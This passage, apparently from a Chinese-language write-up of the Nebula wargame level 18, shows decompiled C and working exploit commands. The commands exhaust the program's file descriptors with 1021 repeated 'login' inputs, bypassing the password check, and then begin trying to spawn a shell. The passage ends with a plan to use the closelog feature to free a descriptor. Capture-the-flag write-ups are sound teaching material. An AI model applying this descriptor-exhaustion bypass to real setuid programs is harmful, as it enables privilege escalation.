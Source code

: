 ```
  `{`
    if ( strcmp(s1, &amp;s) )
      return __readgsdword(0x14u) ^ v9;
    goto LABEL_4;
  `}`
  if ( globals )
    __fprintf_chk(globals, 1, "Unable to read password file %sn", "/home/flag18/password");
  return __readgsdword(0x14u) ^ v9;
`}`
```

思路很简单，就是通过不断`login`，将程序句柄消耗完，让fp返回值为空，从而成功登陆。Linux下可以用 `ulimit -a` 来显示当前的各种用户进程限制。

```
level18@nebula:/tmp$ ulimit -a
core file size          (blocks, -c) 0
data seg size           (kbytes, -d) unlimited
scheduling priority             (-e) 0
file size               (blocks, -f) unlimited
pending signals                 (-i) 1838
max locked memory       (kbytes, -l) 64
max memory size         (kbytes, -m) unlimited
open files                      (-n) 1024
pipe size            (512 bytes, -p) 8
POSIX message queues     (bytes, -q) 819200
real-time priority              (-r) 0
stack size              (kbytes, -s) 8192
cpu time               (seconds, -t) unlimited
max user processes              (-u) 1838
virtual memory          (kbytes, -v) unlimited
file locks                      (-x) unlimited
```

可见每个进程可以同时打开的最大文件数为1024，标准输入、标准输出、标准错误输出会分别占用一个句柄，所以最终供程序可用的只有1021个。

由于程序没有直接的输出显示，需要使用debug功能，为方便将输出到`/dev/tty`进行显示。

```
level18@nebula:/tmp$ (python -c "print 'login 123n'*1021";cat)|/home/flag18/flag18 -d /dev/tty
Starting up. Verbose level = 0
logged in successfully (without password file)
```

测试发现，可以成功登陆了。

```
level18@nebula:/tmp$ (python -c "print 'login 123n'*1021+'shelln'";cat)|/home/flag18/flag18 -d /dev/tty
Starting up. Verbose level = 0
logged in successfully (without password file)
/home/flag18/flag18: error while loading shared libraries: libncurses.so.5: cannot open shared object file: Error 24
```

下一步尝试获取shell，但是由于句柄耗尽了，所以无法获得句柄。查看源码，发现`closelog`调用了fclose，可以用程序的`closelog`功能关闭一个句柄。调整一下exp，继续测试。
